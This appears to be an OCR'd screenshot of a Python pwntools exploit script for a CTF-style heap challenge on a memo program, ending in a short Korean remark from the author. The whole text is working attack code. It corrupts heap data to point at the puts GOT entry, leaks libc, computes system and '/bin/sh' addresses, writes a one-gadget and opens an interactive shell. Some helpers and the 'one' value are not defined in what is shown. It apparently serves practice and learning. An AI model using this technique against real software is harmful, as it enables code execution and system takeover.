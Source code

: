 ```python
    
def delete(content):
    p.recvuntil("> ")
    p.sendline("4")
    p.recvuntil("memo : ")
    p.send(content)

def change(name):
    p.recvuntil("> ")
    p.sendline("5")
    p.recvuntil(" : ")
    p.send(str(name))

p.recvuntil('name : ')
p.send('leeminjea')

create(0x10, 'A'*8)
create(0x10, 'B'*8)
create(0x10, 'C'*8)

pay = b''
pay += b'B'*0x8 + p64(0)
pay += p64(0) + p64(0x31)
pay += p64(0) + p64(e.got['puts'])
pay += p64(e.got['puts'])
input()
modify('BBBBBBBB\x00', pay)

show()
p.recvuntil("[5]\n")
libc_puts = u64(p.recv(6) + b'\x00\x00')
print(hex(libc_puts))
libc_base = libc_puts - 0x6f6a0
print(hex(libc_base))
sys = libc_base + 0x453a0
binsh = libc_base + 0x18ce57

change(p64(libc_puts))  # 저자 변경 

#pay = b''
#pay += p64(pop_rdi) + p64(binsh)
#pay += p64(sys)  # one 
pay = b''
pay += p64(one)

modify(p64(libc_puts), pay)

p.interactive()
```

뭔가 원하는 대로 한 것 같지만??
